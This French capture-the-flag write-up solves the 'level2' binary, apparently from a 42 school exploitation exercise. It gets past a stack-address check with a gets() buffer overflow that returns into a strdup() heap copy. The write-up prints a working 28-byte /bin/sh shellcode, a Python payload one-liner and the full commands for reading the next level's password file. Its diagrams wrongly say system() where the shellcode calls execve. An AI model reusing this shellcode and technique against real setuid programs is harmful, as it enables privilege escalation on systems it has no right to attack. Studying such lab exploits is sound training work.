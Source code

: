 # LEVEL 2

## 1. Introduction

Le binaire `level2` présente une vulnérabilité de **buffer overflow** avec une contrainte particulière : les adresses de la pile sont protégées. Il faut donc exploiter la **heap** via `strdup()` pour exécuter notre shellcode.

Ici le binaire lit une entrée standard et l'affiche :

![alt text](Ressources/image-1.png)

## 2. Analyse

### 2.1 Droits du binaire
```bash
$ ls -la level2
-rwsr-s---+ 1 level3  level2  747441 Mar  6  2016 level2
```

### 2.2 Analyse avec Ghidra

En décompilant le binaire, on observe :

![alt text](Ressources/image.png)

```c
int main(void) {
    char local_50[80];  // Buffer de 80 octets
    
    gets(local_50);     // Fonction vulnérable
    strdup(local_50);   // Copie sur la heap
    
    // Protection contre les sauts vers la pile
    if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
        printf("(%p)\n", unaff_retaddr);
        _exit(1);
    }
}
```

**Points clés :**
- Buffer de 80 octets
- `strdup()` copie l'entrée sur la heap
- Protection contre les adresses `0xb0000000-0xbfffffff`

### 2.3 Détermination du point de crash

On peut déjà trouver où ça segfault grâce au [pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) et GDB : c'est à **80**.

### 2.4 Contraintes de sécurité

Ensuite, on remarque cette condition :

```c
if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n", unaff_retaddr);
    _exit(1);
}
```

qui **interdit** tout saut vers une adresse **0xb0000000–0xbfffffff** (pile, tas, libc…).
La pile est donc inexploitable, il faut passer par la **heap**.

### 2.5 Localisation de strdup()

Heureusement, il y a `strdup()` qui copie notre entrée sur la heap. Comme la heap est allouée dynamiquement, elle n'est pas soumise aux mêmes restrictions que la pile. Pour exploiter cette vulnérabilité, nous devons d'abord localiser l'adresse où `strdup()` place notre donnée. Nous pouvons le faire simplement avec `ltrace` :

![alt text](Ressources/image-2.png)

## 3. Exploitation

### 3.1 Shellcode

Comme nous l'avons vu précédemment avec `ltrace`, l'adresse retournée par `strdup()` est `0x0804a008`. En little-endian, cette adresse devient `\x08\xa0\x04\x08`.

Pour l'exploitation, nous avons besoin d'un shellcode. Nous trouvons sur le site [shell-storm.org](https://shell-storm.org/shellcode/index.html) un shellcode de 28 bytes. Notre payload doit contenir ce shellcode, du padding pour atteindre 80 bytes (point de segfault), et l'adresse de `strdup()` pour rediriger l'exécution vers notre shellcode.

Voici le shellcode choisi de 28 bytes :
```bash
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
```

### 3.2 Construction du payload

On peux construire notre payload de cette facon :

```bash
python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + (80 - 28) * "A" + "\x08\xa0\x04\x08"' > /tmp/payload
```

### 3.3 Exécution de l'exploit

Et enfin on peux executer toujours avec cat /tmp/exploit - pour que ca reste bloquer et ainsi avoir le temps de faire la commande qui permet de recuperer le flag !

![alt text](Ressources/image-3.png)

### 3.4 Commandes complètes

```bash
# Se connecter au niveau
ssh level2@<IP> -p 4242

# Créer le payload
python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + (80 - 28) * "A" + "\x08\xa0\x04\x08"' > /tmp/payload

# Exécuter l'exploit
cat /tmp/payload - | ./level2

# Récupérer le flag
cat /home/user/level3/.pass
```

## 4. Structure du Payload

### 4.1 Ce qui se passe concrètement

```
┌─────────────────────────────────────────────────────────┐
│              HEAP EXPLOITATION                        │
├─────────────────────────────────────────────────────────┤
│  Shellcode[28] + Padding[52] + Adresse heap[4]       │
│  │                                                    │
│  └─→ \x31\xc0\x50... + "A"*52 + \x08\xa0\x04\x08   │
│      │                                                │
│      └─→ strdup() copie sur heap à 0x0804a008       │
│          │                                            │
│          └─→ Écrasement adresse de retour            │
│              │                                        │
│              └─→ Redirection vers shellcode sur heap │
│                  │                                    │
│                  └─→ system("/bin/sh")               │
│                      │                               │
│                      └─→ Shell avec privilèges level3│
└─────────────────────────────────────────────────────────┘
```

### 4.2 Structure de la pile avec protection

```
┌─────────────────┐
│   Buffer[80]    │ ← Notre entrée (80 octets)
├─────────────────┤
│      EBP        │ ← 4 octets (sauvegardé)
├─────────────────┤
│   Retour main   │ ← 4 octets (notre cible)
└─────────────────┘
```

### 4.3 Protection et contournement

```
┌─────────────────┐    ┌─────────────────┐    ┌─────────────────┐
│   Protection    │    │   Contournement │    │   Exploitation  │
│   0xb0000000-   │    │   strdup()      │    │   Heap shellcode│
│   0xbfffffff    │───▶│   → heap        │───▶│   → system()    │
│   bloquée       │    │   0x0804a008    │    │                 │
└─────────────────┘    └─────────────────┘    └─────────────────┘
```

### 4.4 Flux d'exécution

```
1. gets() lit notre entrée (shellcode + padding + adresse)
2. strdup() copie notre entrée sur la heap à 0x0804a008
3. Buffer déborde de 80 octets, écrasant l'adresse de retour
4. Adresse de retour pointe vers notre shellcode sur la heap
5. Shellcode s'exécute et appelle system("/bin/sh")
6. Shell s'ouvre avec les privilèges SUID de level3
```

### 4.5 Visualisation de l'exploitation

```
┌─────────────────┐    ┌─────────────────┐    ┌─────────────────┐
│   Shellcode     │    │   Heap Copy     │    │   Execution     │
│   + Padding     │───▶│   strdup()      │───▶│   system("/sh") │
│   + Adresse     │    │   0x0804a008    │    │                │
└─────────────────┘    └─────────────────┘    └─────────────────┘
```

## 5. Conclusion

Cette vulnérabilité exploite un **buffer overflow** avec contrainte de sécurité. La protection empêche l'exploitation de la pile, mais `strdup()` permet d'écrire sur la heap. En combinant un shellcode de 28 bytes avec un padding de 52 bytes, on atteint l'adresse de retour et on redirige l'exécution vers notre shellcode sur la heap. 